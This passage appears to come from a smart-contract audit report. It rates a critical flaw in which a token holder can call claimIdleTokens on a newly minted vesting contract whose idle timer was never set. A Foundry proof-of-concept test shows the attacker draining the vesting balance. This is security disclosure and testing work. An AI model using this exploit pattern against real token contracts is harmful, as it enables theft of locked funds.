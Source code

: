 
## Why This Is Critical

| Aspect               | Assessment                                                |
| -------------------- | --------------------------------------------------------- |
| **Exploitability**   | ✓ Trivial — Single transaction; requires only 1M tokens   |
| **Permissionless**   | ✓ Yes — Any token holder can execute                      |
| **Time to exploit**  | ✓ Immediate — First block after mint                      |
| **Reversibility**    | ✗ No — Tokens burned; funds distributed; cannot be undone |
| **Loss magnitude**   | ✓ Total — 100% of minted recipient balance                |
| **Intended victims** | ✓ Vesting/treasury/platform (protected allocations)       |
| **Preconditions**    | ✓ Minimal — Only requires minimal token balance           |

---

## Proof-of-Concept Code (Foundry Test)

```solidity
function testImmediateDrainVestingTokens() public {
    // Setup: Mint 1M tokens to attacker
    vm.prank(owner);
    token.mint(attacker, 1_000_000 * 1e18);

    // Setup: Mint 200M to vesting contract
    uint256 vestingAmount = 200_000_000 * 1e18;
    vm.prank(owner);
    token.mintInitial(address(vestingContract));

    // Verify vesting received tokens
    assertEq(token.balanceOf(address(vestingContract)), vestingAmount);

    // Verify timer was NOT set (remains 0)
    assertEq(token.lastTransferTime(address(vestingContract)), 0);

    // Attack: Attacker drains immediately
    vm.prank(attacker);
    token.claimIdleTokens(address(vestingContract));

    // Verify drain succeeded
    assertEq(token.balanceOf(address(vestingContract)), 0);
    assertEq(
        token.balanceOf(attacker),
        1_000_000 * 1e18 + (vestingAmount * 50 / 100)
    );
}
```

---